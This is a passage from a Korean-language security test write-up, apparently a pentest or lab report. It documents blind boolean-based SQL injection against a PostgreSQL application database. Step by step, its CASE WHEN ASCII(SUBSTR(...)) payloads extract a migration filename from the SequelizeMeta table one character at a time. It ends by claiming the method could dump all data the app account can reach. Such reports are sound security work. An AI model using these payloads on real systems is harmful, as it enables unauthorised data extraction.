        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 25, 1)) = 115 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 26, 1)) = 99 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 27, 1)) = 104 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 28, 1)) = 101 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 29, 1)) = 109 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 30, 1)) = 97 THEN '1' ELSE '0' END 
        || ']
        ```

    - **출력:** `[111111]`
    **결론:**
    > 1번째 데이터의 25 ~ 30번째 글자: **schema**

21. 31번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 31번째 글자 '.'
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 31, 1)) = 46 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 31번째 글자: **.**

22. 32번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 32번째 글자 c
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 32, 1)) = 99 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 32번째 글자: **c**

23. 33번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 33번째 글자 j
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 33, 1)) = 106 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 33번째 글자: **j**

24. 34번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 34번째 글자 s
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 34, 1)) = 115 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 34번째 글자: **s**

25. 35번째 글자 `NULL` 확인

    - **입력:**

        ```SQL
        -- 성공 : 35번째 글자 NULL
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 35, 1)) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 글자 수는 **34자**임.

**결론:**
> "SequelizeMeta" 테이블의 'name' 컬럼의 1번째 행의 데이터:
> **20260112100000-baseline-schema.cjs**

### 최종 결론

> 1. **`MCMK`** DB 내 총 테이블 수: **6개**
> 1. **`MCMK`** DB 내 1번째 테이블 이름: **SequelizeMeta**
> 1. **SequelizeMeta** 테이블의 컬럼 개수:  **1개**
> 1. **SequelizeMeta** 테이블의 Column 이름: **name**
> 1. **SequelizeMeta** 테이블 내 행(데이터) 개수: **9개**
> 1. **SequelizeMeta** 테이블 내 **name** 컬럼의 1번째 행 데이터:
> **20260112100000-baseline-schema.cjs**

#### 최종 결론에 따른 추론

해당 방식을 충분히 반복적으로 사용할 경우, 이론적으로 **PostgreSQL의 `mcmk_app` 계정으로 접근할 수 있는 모든 데이터**를 추출할 수 있을 것으로 사료됨.